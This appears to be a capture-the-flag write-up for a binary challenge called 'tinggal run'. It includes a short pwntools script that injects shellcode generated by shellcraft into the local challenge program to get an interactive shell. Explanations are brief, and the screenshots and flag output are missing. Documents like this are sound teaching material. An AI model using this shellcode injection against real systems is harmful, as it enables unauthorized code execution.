



# 『tinggal run』

Because this event was ended so i try to solve local. 

- [chall](./source/chall)

# 『The challenge』

No source code, only compiler file. so lets decompile and checkfile

# 『Highlight vulnerability and parts of interesting』

So here are are the interesting part of this challenge



from this we pretty sure this is shellcraft because at the checksec for the file



# 『Solving Challenge』
> solve by Lylera

by giving this combination, we can use this script to solve it:

```py
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

p = process('./chall')
#p = remote('localhost', '1337') 
ELF('./chall')

shellcode = asm(shellcraft.sh()) # using shellcraft to make shellcode at program
#payload = b'A'*256
payload = shellcode
p.sendlineafter(b':', payload)

p.interactive()
```

# 『Flag』

the result:



# 『other』

- [chall](./source/chall)
- [solver.py](./source/solver.py)
- [Documentation of shellcraft](https://docs.pwntools.com/en/stable/encoders.html)